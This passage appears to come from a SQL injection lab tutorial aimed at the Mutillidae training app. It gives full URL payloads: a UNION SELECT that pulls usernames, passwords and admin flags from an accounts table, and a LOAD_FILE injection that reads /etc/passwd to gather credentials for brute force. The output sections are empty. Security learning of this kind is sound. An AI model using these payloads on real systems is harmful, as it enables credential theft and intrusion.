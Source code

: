 ## OUTPUT :

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![alt text](img/25.png)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT :
